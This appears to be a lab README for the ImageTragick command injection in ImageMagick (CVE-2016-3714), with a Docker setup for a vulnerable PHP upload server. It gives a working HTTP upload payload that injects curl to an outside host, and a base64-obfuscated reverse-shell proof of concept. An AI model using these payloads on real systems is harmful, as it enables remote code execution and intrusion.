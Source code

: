 # Imagemagick Command Injection Vulnerability (CVE-2016–3714)

ImageMagick is a free and open-source[3] cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

[中文版本(Chinese version)](README.zh-cn.md)

Referers:

- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## Environment Setup

Execute the following command to start a PHP server that includes Imagemagick 6.9.2-10:

```
docker-compose up -d
```

## Exploit

Visit `http://your-ip:8080/` to see an upload component.

Send the following request:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

It can be seen that `www.leavesongs.com:8889` has received the http request, after the curl command was executed successfully:

![](2.png)

POC of getting a reverse shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
